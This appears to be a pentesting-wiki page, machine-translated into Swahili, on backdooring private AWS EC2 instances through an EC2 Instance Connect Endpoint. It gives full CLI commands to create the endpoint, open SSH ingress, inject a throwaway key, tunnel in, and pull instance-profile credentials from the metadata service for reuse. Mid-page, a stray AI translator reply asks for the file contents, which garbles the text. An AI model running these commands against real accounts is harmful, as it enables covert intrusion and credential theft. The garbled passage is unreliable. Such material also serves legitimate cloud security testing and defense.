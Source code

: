 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Kutumia vibaya EC2 Instance Connect Endpoint (EIC Endpoint) kupata ufikiaji wa SSH wa incoming kwenye private EC2 instances (bila IP ya umma/bastion) kwa:
- Kuunda EIC Endpoint ndani ya subnet lengwa
- Kuruhusu inbound SSH kwenye SG lengwa kutoka SG ya EIC Endpoint
- Kuingiza ephemeral SSH public key (inayodumu kwa muda mfupi, takriban ~60 seconds) kwa kutumia `ec2-instance-connect:SendSSHPublicKey`
- Kufungua EIC tunnel na kupivota hadi instance ili kuiba instance profile credentials kutoka IMDS

Impact: njia ya siri ya ufikiaji wa mbali kwenye private EC2 instances inayopitisha bastions na vikwazo vya IP za umma. Mshambuliaji anaweza kuchukua instance profile na kufanya shughuli ndani ya akaunti.

## Requirements
- Ruhusa za:
- `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
- `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Instance ya Linux lengwa yenye SSH server na EC2 Instance Connect imewezeshwa (Amazon Linux 2 au Ubuntu 20.04+). Watumiaji wa default: `ec2-user` (AL2) au `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```
## Unda EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
--subnet-id "$SUBNET_ID" \
--security-group-ids "$ENDPOINT_SG_ID" \
--tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
--region "$REGION" \
--query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
aws ec2 describe-instance-connect-endpoints \
--instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
--query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
grep -q 'create-complete' EIC_STATE && break
sleep 5
done
```
## Ruhusu trafiki kutoka EIC Endpoint hadi target instance
```bash
aws ec2 authorize-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```
## Ingiza ufunguo wa SSH wa muda mfupi na fungua tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "$OS_USER" \
--ssh-public-key file:///tmp/eic.pub \
--region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
--instance-id "$INSTANCE_ID" \
--instance-connect-endpoint-id "$(cat EIC_ID)" \
--local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```
## Post-exploitation proof (kumwibia instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```
I don't have the file contents. Please paste the markdown/text from src/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ec2-instance-connect-endpoint-backdoor.md and I will translate it to Swahili following your rules.
```json
{
"Code": "Success",
"AccessKeyId": "ASIA...",
"SecretAccessKey": "w0G...",
"Token": "IQoJ...",
"Expiration": "2025-10-08T04:09:52Z"
}
```
Tumia creds zilizoibiwa kwa mashine ya ndani ili kuthibitisha utambulisho:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```
## Usafishaji
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
--instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```
> Vidokezo
> - SSH key iliyowekwa ni halali tu kwa ~60 sekunde; tuma key hiyo mara moja kabla ya kufungua tunnel/SSH.
> - `OS_USER` inapaswa kuendana na AMI (kwa mfano, `ubuntu` kwa Ubuntu, `ec2-user` kwa Amazon Linux 2).
{{#include ../../../../banners/hacktricks-training.md}}
